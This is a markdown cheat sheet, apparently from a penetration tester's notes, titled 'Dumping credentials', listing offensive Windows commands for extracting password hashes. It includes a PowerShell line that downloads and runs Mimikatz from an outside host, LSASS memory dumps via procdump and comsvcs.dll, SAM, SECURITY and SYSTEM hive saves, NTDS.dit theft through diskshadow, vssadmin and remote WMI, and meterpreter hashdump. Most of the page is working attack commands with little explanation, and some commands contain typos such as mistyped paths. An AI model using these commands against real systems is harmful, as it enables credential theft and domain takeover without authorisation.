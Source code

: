 ```yaml
---
title: "Dumping credentials"
date: 2020-07-16T13:41:37+02:00
draft: false
---
```


## Local
Ways of dumping the lsass.exe process locally
***

#### Using in-memory Mimikatz using PowerShell (Work Out)
```powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```
***

#### LSASS using Task manager
Right click on a the lsass.exe process and select 'Create Dump File'. This will require administrative rights. Hashes can now be dumped using Mimikatz.
```
sekurlsa::minidump <lsass.DMP locations>
sekurlsa::logonpasswords
```
***

#### LSASS using Procdump
```
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
***

#### LSASS using (native) comsvcs.dll
```
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```
***

#### LSASS using the MiniDumpWriteDump API
Reference: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass
***

#### SAM using samdump2
Samdump2 is available for both Windows and Linux (Included in Kali). To decrypt the SAM you'll need the SYSTEM hive. When booted from an external medium you can extract both the SAM and SYSTEM file from 'C:\Windows\System32\Config\'. On Windows you can save it to a file using 'reg save':
```
reg save hklm\system system
reg save hklm\sam sam
```
Now you can use samdump2 to decrypt the SAM.
```
samdump2 system sam
```
***

#### LSA Secrets using Mimikatz
LSA Secrets are stored in the registry ('HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets'). You can directly extract them using Mimikatz.
```
token::elevate
lsadump::secrets
```
Or you can retrieve the SYSTEM- and SECURITY-file and dump the credentials after the fact.
```
reg save HKLM\SYSTEM system
reg save HKLM\security security
```
```
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```
***

#### Cached Domain Credentials using mimikatz
```
lsadump::cache
```
***

#### Hashes directly from a domain controller using ntdsutil (lolbin)
```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
The hashes can be dumped offline using secretsdump.py
```
secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```
***

#### Hashes using diskshadow
Put the following commands in a .txt file.
```
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset
```
And execute the following commands
```
mkdir c:\exfil
diskshadow.exe /s C:\users\Administrator\Desktop\shadow.txt
cmd.exe /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
```
The ntds.dit will be actracted and placed in the C:\exfil folder. Execute the following commands to perform cleanup.
```
diskshadow.exe
    > delete shadows volume trophy
    > reset
```
***

#### NTDS.dit using vssadmin
Using vssadmin we can create shadow copies of drives. Using this we can access the ntds.dit in the shadow copy volume, since it is not in use there.
Creat a shadow copy volume:
```
vssadmin create shadow /for=c:
```
The volume should now be created and return an id and location of the copy. You could verify using:
```
vssadmin list shadows
```
Copy the ntds.dit to a writeable local location (path will probably differ):
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTFDS\ntds.dit C:\temp\ntds.dit
```
Save the SYSTEM key, so we can decrypt the ntds.dit file offline.
```
reg save HKLM\SYSYEM C:\temp\SYSTEM
```
Delete the shadow copy volume after you're done
```
vssadmin delete shadows /shadow="{2342352f-5234-252e-342345-2352342d2fd}"
```
We decrypt the hashes using secretsdump to crack them afterwards.
```
secretsdump -ntds ntds.dit -system SYSTEM LOCAL -outfile customer_hashes.txt
```

## Remote
***

#### Cached Domain Credentials using meterpreter
The 'hashdump' command in meterpreter will dump the local SAM account hashes.
```
hashdump
```
To dump cached domain credentials in the mscach format the 'cachedump' module can be used.
```
getsystem
use post/windows/gather/cachedump
run
```
The output will be in the 'mscache'-format.
***

#### Cached Domain Credentials using secretsdump

Obtain the SAM, SECURITY and SYSTEM hive. Either trough booting from an external medium or using reg.exe.
```
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\security c:\temp\security.save
reg.exe save hklm\system c:\temp\system.save
```

After obtaining the hives the hashes can be dumped using secretsdump from impacket.
```
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
***

#### Domain controller hashes shadow copy over WMI

Creat a shadow copy of the C drive.
```powershell
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```
Copy the ntds.dit, SYSTEM and SECURITY hives to C:\temp on the remote machine
```powershell
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```
Mount the remote C:\temp directoy to your local machine
```
net use j: \\dc01\c$\temp /user:administrator 123456; dir j:\
```
Now you can run secretsdump to dump the hashes (as shown in previous examples)